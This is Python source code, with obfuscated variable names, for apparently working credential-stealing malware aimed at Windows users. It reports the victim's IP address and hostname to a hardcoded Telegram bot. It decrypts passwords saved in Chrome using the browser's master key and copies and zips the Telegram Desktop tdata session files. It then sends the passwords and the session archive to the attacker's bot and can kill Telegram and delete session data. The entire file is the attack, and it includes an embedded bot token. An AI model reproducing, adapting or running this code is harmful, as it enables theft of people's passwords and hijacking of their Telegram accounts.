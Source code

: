 try :#line:1
    import socket #line:2
    from telebot import TeleBot #line:3
    import shutil #line:4
    import json #line:5
    from base64 import b64decode #line:6
    from win32crypt import CryptUnprotectData #line:7
    from Crypto .Cipher import AES #line:8
    import os #line:9
    import sqlite3 #line:10
    import win32api #line:11
    from zipfile import ZipFile #line:12
except Exception as e :#line:13
    print ("ERROR importing: "+repr (e ))#line:14
    pass #line:15
bt_tkn ='5982347969:AAFNqM55gteFIBVR23r4nmodzOA8V-dnzlo'#line:18
cht_id ='1468931744'#line:21
def gt_ip_hstn ():#line:24
    try :#line:25
        OOO0O0O0O000000OO =socket .gethostbyname (socket .gethostname ())#line:26
        O00000O0O00OOO0O0 =socket .gethostname ()#line:27
        return OOO0O0O0O000000OO ,O00000O0O00OOO0O0 #line:28
    except Exception as O0000O0OO00O00000 :#line:29
        return None ,str (O0000O0OO00O00000 )#line:30
def snd_msg (O0OO00O0O0OO0000O ,OO000OOO0OOO0OOO0 ):#line:33
    try :#line:34
        O0OO00O0000OO0OOO =TeleBot (token =bt_tkn )#line:35
        O0OO00O0000OO0OOO .send_message (chat_id =O0OO00O0O0OO0000O ,text =OO000OOO0OOO0OOO0 )#line:36
    except Exception as OO0000OOO0O000000 :#line:37
        print (f"Ошибка при отправке сообщения: {str ( OO0000OOO0O000000 )}")#line:38
def mn ():#line:41
    OO0O0000000OOOO00 ,O0O00OOO0OO0OO000 =gt_ip_hstn ()#line:42
    if OO0O0000000OOOO00 and O0O00OOO0OO0OO000 :#line:43
        OO000O000OOOOO0OO =f"IP-адрес компьютера: {OO0O0000000OOOO00}\nИмя компьютера: {O0O00OOO0OO0OO000}"#line:44
        snd_msg (cht_id ,OO000O000OOOOO0OO )#line:45
    else :#line:46
        print ("Не удалось получить IP-адрес и имя компьютера.")#line:47
if __name__ =="__main__":#line:50
    mn ()#line:51
lg_out =0 #line:53
usr_id =1468931744 #line:55
tkn ='5982347969:AAFNqM55gteFIBVR23r4nmodzOA8V-dnzlo'#line:56
nm_ur_txt ='pass.txt'#line:57
bt =TeleBot (tkn )#line:60
pth_usr =os .path .expanduser ('~')#line:61
lcl =os .getenv ("LOCALAPPDATA")#line:62
tmp =os .path .join (lcl ,"Temp")#line:63
ttmp =os .path .join (lcl ,"Temp","tdata")#line:64
pths =['C:\\','D:\\','E:\\','F:\\','G:\\','H:\\','I:\\','J:\\']#line:66
pth =os .path .expandvars (r'%LocalAppData%\Google\Chrome\User Data\Local State')#line:67
def gt_mstr_key ():#line:70
    try :#line:71
        with open (pth ,encoding ="utf-8")as O000OOOOO0OO00OO0 :#line:72
            O000O0O0OOOOO0000 =json .load (O000OOOOO0OO00OO0 )["os_crypt"]["encrypted_key"]#line:73
            O0O0OO0OO0O0OO00O =b64decode (O000O0O0OOOOO0000 )#line:74
            O0O0OO0OO0O0OO00O =O0O0OO0OO0O0OO00O [5 :]#line:75
            O0O0OO0OO0O0OO00O =CryptUnprotectData (O0O0OO0OO0O0OO00O ,None ,None ,None ,0 )[1 ]#line:76
            return O0O0OO0OO0O0OO00O #line:77
    except :#line:78
        print ("ERROR: couldn't access the masterkey")#line:79
        pass #line:80
def dcrptn (O0OOOOO0OO0O00O00 ,O00000O00O0OO00O0 ):#line:83
    try :#line:84
        OO0OO0OOOO0O0OOO0 =O0OOOOO0OO0O00O00 [15 :]#line:85
        OOOOO0O00O00OO0O0 =O0OOOOO0OO0O00O00 [3 :15 ]#line:86
        OO00OOO0OOO0O000O =AES .new (O00000O00O0OO00O0 ,AES .MODE_GCM ,OOOOO0O00O00OO0O0 )#line:87
        OO00OOO000O0O000O =OO00OOO0OOO0O000O .decrypt (OO0OO0OOOO0O0OOO0 )#line:88
        OO00OOO000O0O000O =OO00OOO000O0O000O [:-16 ].decode ()#line:89
        return OO00OOO000O0O000O #line:90
    except Exception as OO00OO0000OO0O0O0 :#line:91
        print ("ERROR in decryption: "+repr (OO00OO0000OO0O0O0 ))#line:92
def Chrme ():#line:95
    O00O0OOOO000O0000 ='YOUR PASSWORDS\n'#line:96
    try :#line:97
        if os .path .exists (os .getenv ("LOCALAPPDATA")+'\\Google\\Chrome\\User Data\\Default\\Login Data'):#line:98
            shutil .copy2 (os .getenv ("LOCALAPPDATA")+'\\Google\\Chrome\\User Data\\Default\\Login Data',os .getenv ("LOCALAPPDATA")+'\\Google\\Chrome\\User Data\\Default\\Login Data2')#line:100
            O00OOOOOO00OO0000 =sqlite3 .connect (os .getenv ("LOCALAPPDATA")+'\\Google\\Chrome\\User Data\\Default\\Login Data2')#line:101
            OO00000OO00O0O000 =O00OOOOOO00OO0000 .cursor ()#line:102
            OO00000OO00O0O000 .execute ('SELECT action_url, username_value, password_value FROM logins')#line:103
            for OOOO00O00OO00OO00 in OO00000OO00O0O000 .fetchall ():#line:104
                OO00OOOOOOOOO00OO =OOOO00O00OO00OO00 [2 ]#line:105
                OOOO0OO00OOO0O0OO =OOOO00O00OO00OO00 [1 ]#line:106
                O00000000O0O00OO0 =OOOO00O00OO00OO00 [0 ]#line:107
                OOO0OOO00O0O00000 =dcrptn (OO00OOOOOOOOO00OO ,gt_mstr_key ())#line:108
                O00O0OOOO000O0000 +=O00000000O0O00OO0 +' | '+OOOO0OO00OOO0O0OO +' | '+OOO0OOO00O0O00000 +'\n'#line:109
                with open (nm_ur_txt ,"w",encoding ="utf-8")as O0O00OO00000O0O00 :#line:110
                    O0O00OO00000O0O00 .write (O00O0OOOO000O0000 )#line:111
    except Exception as OO0OOO0O0OO0O0OOO :#line:112
        print ("ERROR in Chrme() func: "+repr (OO0OOO0O0OO0O0OOO ))#line:113
        pass #line:114
def fnddir (O000OOO0000000000 ):#line:117
    for O000O0000OOOOO000 ,O00OOO0O0OO00OOOO ,O00OO0OOO0OO00OO0 in os .walk (O000OOO0000000000 ):#line:118
        for O00O0O0O0O0O0OO0O in O00OOO0O0OO00OOOO :#line:119
            if O00O0O0O0O0O0OO0O =="Telegram Desktop":#line:120
                O00000O000OO0O0OO =os .path .join (O000O0000OOOOO000 ,O00O0O0O0O0O0OO0O )#line:121
                print ("***Checking folder: "+O00000O000OO0O0OO )#line:122
                if os .path .exists (O00000O000OO0O0OO +'\\Telegram.exe'):#line:123
                    print ("***OK Telegram Desktop has been found")#line:124
                    return O00000O000OO0O0OO #line:125
                else :#line:126
                    print ("ERROR: ^ this is not an actual TG folder. Continuing...")#line:127
                    pass #line:128
def get_file_props (OO0OO00O00000O0OO ):#line:130
    O0OO00O00OO0OO0OO ={'FileVersion':None }#line:131
    try :#line:132
        OOOO0O0OO0OO0O000 =win32api .GetFileVersionInfo (OO0OO00O00000O0OO ,'\\')#line:133
        O0OO00O00OO0OO0OO ['FileVersion']="%d.%d.%d.%d"%(OOOO0O0OO0OO0O000 ['FileVersionMS']/65536 ,OOOO0O0OO0OO0O000 ['FileVersionMS']%65536 ,OOOO0O0OO0OO0O000 ['FileVersionLS']/65536 ,OOOO0O0OO0OO0O000 ['FileVersionLS']%65536 )#line:136
    except Exception as O00O00OOOO00OOOOO :#line:137
        print (repr (O00O00OOOO00OOOOO ))#line:138
        pass #line:139
    return O0OO00O00OO0OO0OO #line:140
def lgout_win (O00O000O00OOOO000 ):#line:143
    if O00O000O00OOOO000 :#line:144
        try :#line:145
            global pthd877 #line:146
            os .system ('taskkill /f /im Telegram.exe')#line:147
            os .remove (pthd877 )#line:148
        except Exception as O0000O000OOO0O000 :#line:149
            print ("ERROR: Failed to logout: "+repr (O0000O000OOO0O000 ))#line:150
            pass #line:151
    else :#line:152
        print ("***Logout state is 0")#line:153
        pass #line:154
def snd_txt ():#line:157
    try :#line:158
        bt .send_document (usr_id ,open (nm_ur_txt ,'rb'))#line:159
        os .remove (nm_ur_txt )#line:160
        print ("***OK Passwords have been sended successfully")#line:161
    except Exception as OO00OO00OOO0O0OOO :#line:162
        print ("ERROR in snd_txt() func: "+repr (OO00OO00OOO0O0OOO ))#line:163
        pass #line:164
def snd_sssn_files (OOOOO00OOO0O0OOOO ):#line:169
    O0000O0000000OO00 =get_file_props (os .path .join (OOOOO00OOO0O0OOOO [:-5 ],"Telegram.exe"))["FileVersion"]#line:170
    try :#line:171
        os .mkdir (ttmp )#line:172
        print ("good")#line:173
    except :#line:174
        print ("err")#line:175
    for O0O00OOO0OO000000 ,OO00OOO0O0000O000 ,OOOO0OO0000O0OOO0 in os .walk (OOOOO00OOO0O0OOOO ):#line:176
        for O00OO00000O0OOOO0 in OO00OOO0O0000O000 :#line:177
            if O00OO00000O0OOOO0 [0 :15 ]=="D877F783D5D3EF8":#line:178
                OOO0OO0000O00O000 =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00000O0OOOO0 )#line:179
                try :#line:180
                    os .mkdir (os .path .join (ttmp ,O00OO00000O0OOOO0 ))#line:181
                except :#line:182
                    pass #line:183
                if os .path .exists (os .path .join (O0O00OOO0OO000000 ,O00OO00000O0OOOO0 ,'maps')):#line:184
                    shutil .copy2 (os .path .join (OOO0OO0000O00O000 ,'maps'),(os .path .join (ttmp ,O00OO00000O0OOOO0 ,"maps")))#line:185
            elif O00OO00000O0OOOO0 [0 :15 ]=="A7FDF864FBC10B7":#line:186
                OOO0OO0000O00O000 =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00000O0OOOO0 )#line:187
                try :#line:188
                    os .mkdir (os .path .join (ttmp ,O00OO00000O0OOOO0 ))#line:189
                except :#line:190
                    pass #line:191
                if os .path .exists (os .path .join (O0O00OOO0OO000000 ,O00OO00000O0OOOO0 ,'maps')):#line:192
                    shutil .copy2 (os .path .join (OOO0OO0000O00O000 ,'maps'),(os .path .join (ttmp ,O00OO00000O0OOOO0 ,"maps")))#line:193
            elif O00OO00000O0OOOO0 [0 :15 ]=="F8806DD0C461824":#line:194
                OOO0OO0000O00O000 =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00000O0OOOO0 )#line:195
                try :#line:196
                    os .mkdir (os .path .join (ttmp ,O00OO00000O0OOOO0 ))#line:197
                except :#line:198
                    pass #line:199
                if os .path .exists (os .path .join (O0O00OOO0OO000000 ,O00OO00000O0OOOO0 ,'maps')):#line:200
                    shutil .copy2 (os .path .join (OOO0OO0000O00O000 ,'maps'),(os .path .join (ttmp ,O00OO00000O0OOOO0 ,"maps")))#line:201
        for O00OO00OO00O0000O in OOOO0OO0000O0OOO0 :#line:202
            if O00OO00OO00O0000O [0 :15 ]=="D877F783D5D3EF8":#line:203
                OOO00OO0O0OO0O00O =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00OO00O0000O )#line:204
                shutil .copy2 (OOO00OO0O0OO0O00O ,(os .path .join (ttmp ,O00OO00OO00O0000O )))#line:205
            elif O00OO00OO00O0000O [0 :15 ]=="A7FDF864FBC10B7":#line:206
                OOO00OO0O0OO0O00O =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00OO00O0000O )#line:207
                shutil .copy2 (OOO00OO0O0OO0O00O ,(os .path .join (ttmp ,O00OO00OO00O0000O )))#line:208
            elif O00OO00OO00O0000O [0 :15 ]=="F8806DD0C461824":#line:209
                OOO00OO0O0OO0O00O =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00OO00O0000O )#line:210
                shutil .copy2 (OOO00OO0O0OO0O00O ,(os .path .join (ttmp ,O00OO00OO00O0000O )))#line:211
            elif O00OO00OO00O0000O =="key_datas":#line:212
                O0O00O0OOO00O0O00 =os .path .join (OOOOO00OOO0O0OOOO ,O00OO00OO00O0000O )#line:213
                shutil .copy2 (O0O00O0OOO00O0O00 ,(os .path .join (ttmp ,O00OO00OO00O0000O )))#line:214
    with ZipFile (os .path .join (tmp ,'tdata.zip'),'w')as O00000O00O00OOOOO :#line:215
        for O0O00OO000O000000 ,OO0OO00OO00OOOOO0 ,OO0O00000000OO0O0 in os .walk (ttmp ):#line:216
            for O00OOO00000O00O0O in OO0O00000000OO0O0 :#line:217
                OOOOOO000O00O0000 =os .path .join (O0O00OO000O000000 ,O00OOO00000O00O0O )#line:218
                O00000O00O00OOOOO .write (OOOOOO000O00O0000 )#line:219
    if OOOOO00OOO0O0OOOO is not None :#line:220
        O0OOOOOO0O0OOOO0O =f"{OOOOO00OOO0O0OOOO}\nVersion: {O0000O0000000OO00}"#line:221
        bt .send_document (usr_id ,open (os .path .join (tmp ,'tdata.zip'),'rb'),caption =O0OOOOOO0O0OOOO0O )#line:222
    else :#line:223
        print ("ERROR: Путь является None.")#line:224
if os .path .exists (pth_usr +'\\AppData\\Roaming\\Telegram Desktop'):#line:227
    tddir =(pth_usr +'\\AppData\\Roaming\\Telegram Desktop\\')#line:228
    tdata_pth =(pth_usr +'\\AppData\\Roaming\\Telegram Desktop\\tdata')#line:229
    print ("***OK Default TG folder has been found")#line:230
    snd_sssn_files (tdata_pth )#line:231
else :#line:232
    print ("ERROR: Telegram folder is not default. Continuing...")#line:233
for i in pths :#line:235
    found =fnddir (i )#line:236
    if found !=None and found !=(pth_usr +'\\AppData\\Roaming\\Telegram Desktop'):#line:237
        tddir =found #line:238
        tdata_pth =(os .path .join (tddir ,"tdata"))#line:239
        snd_sssn_files (tdata_pth )#line:240
def mn ():#line:243
    try :#line:244
        Chrme ()#line:245
        bt .send_message (usr_id ,pth_usr )#line:246
        snd_txt ()#line:247
        lgout_win (lg_out )#line:248
    except Exception as OOOO00O0OO00OO0OO :#line:249
        print ('ERROR: Main function: '+repr (OOOO00O0OO00OO0OO ))#line:250
        pass #line:251
if __name__ =='__main__':#line:254
    mn ()#line:255
    print ("***Finished***")#line:256
